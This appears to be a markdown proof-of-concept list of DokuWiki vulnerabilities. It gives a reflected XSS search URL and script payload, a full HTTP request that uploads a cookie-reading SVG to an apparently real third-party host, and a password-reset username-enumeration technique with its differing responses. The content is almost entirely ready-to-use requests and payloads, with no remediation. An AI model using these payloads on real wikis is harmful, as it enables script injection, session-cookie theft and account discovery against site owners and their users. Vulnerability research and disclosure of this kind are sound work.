 # DokuWiki

### CVE-2025-61224 xss
- ***poc:***  *GET https://<host>/dokuwiki/doku.php?id=start&do=search&q=1%20%40%3Cscript%3Eprompt%60xss%60%3C%2fscript%3E*
- ***Payload:*** ```1 @<script>prompt`xss`</script>```

### 2024-02-06a xss via svg file upload
- ***poc:***
```
POST /lib/exe/ajax.php?tab_files=files&tab_details=view&do=media&ns=&sectok=&mediaid=&call=mediaupload&qqfile=alert.svg&ow=false HTTP/2
Host: manual.kcell.kz
Content-Length: 197
X-Requested-With: XMLHttpRequest
X-File-Name: alert.svg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.289 Safari/537.36
Content-Type: application/octet-stream
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
    <circle r="50" cx="50" cy="50" fill="red" 
            onmouseover="alert(document.cookie);" />
</svg>

```
- ***execute:*** ```http://your-ip/data/media/alert.svg```

### 2018-04-22b - Username Enumeration
- ***poc:***
```
POST /doku.php?id=start&do=resendpwd HTTP/1.1

sectok=&do=resendpwd&save=1&login=sss

# Response for non-valid user(sss):

<div class="error">Sorry, we can't find this user in our database.</div>

========================================================================

# Testing for valid user:

POST /doku.php?id=start&do=resendpwd HTTP/1.1

sectok=&do=resendpwd&save=1&login=admin

# Response for valid user (admin):

<div class="error">There was an unexpected problem communicating with SMTP: Could not open SMTP Port.</div>
<div class="error">Looks like there was an error on sending the password mail. Please contact the admin!</div>
```
